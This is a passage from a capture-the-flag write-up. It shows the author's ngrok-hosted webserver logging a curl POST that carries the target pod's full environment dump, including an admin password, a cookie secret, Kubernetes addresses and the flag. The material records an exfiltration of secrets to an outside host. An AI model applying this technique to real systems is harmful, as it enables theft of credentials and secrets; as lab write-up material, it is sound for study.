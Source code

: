 And on our webserver, we see this.
```
INFO:root:POST request,
Path: /
Headers:
Host: [REDACTED].ngrok.io
User-Agent: curl/7.79.0
Content-Length: 969
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 104.198.220.12
X-Forwarded-Proto: http
Accept-Encoding: gzip

Body:
KUBERNETES_SERVICE_PORT=443KUBERNETES_PORT=tcp://10.116.0.1:443UWSGI_ORIGINAL_PROC_NAME=uwsgiHOSTNAME=opa-secrets-507ebc9dc99cab12-7964f68997-fsbpcPYTHON_PIP_VERSION=21.0.1SHLVL=1HOME=/rootGPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/4be3fe44ad9dedc028629ed1497052d65d281b8e/get-pip.pyAMDIN_PASSWORD=cegJBSPsR+c7UtCcH6fArJ6Mp8mwCkaGnT71QxgVijoKUBERNETES_PORT_443_TCP_ADDR=10.116.0.1PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binKUBERNETES_PORT_443_TCP_PORT=443KUBERNETES_PORT_443_TCP_PROTO=tcpLANG=C.UTF-8PYTHON_VERSION=3.8.7KUBERNETES_PORT_443_TCP=tcp://10.116.0.1:443KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_SERVICE_HOST=10.116.0.1PWD=/usr/src/appPYTHON_GET_PIP_SHA256=8006625804f55e1bd99ad4214fd07082fee27a1c35945648a58f9087a714e9d4COOKIE_SECRET=Mp8egJBSPsR+cxgViGnTcfArjo7UtCcH6mwCkaJ671QUWSGI_RELOADS=0FLAG=flag{589882d62d1c899d8b85db1af2076b39}

127.0.0.1 - - [19/Sep/2021 20:46:36] "POST / HTTP/1.1" 200 -
```

And that's the flag.
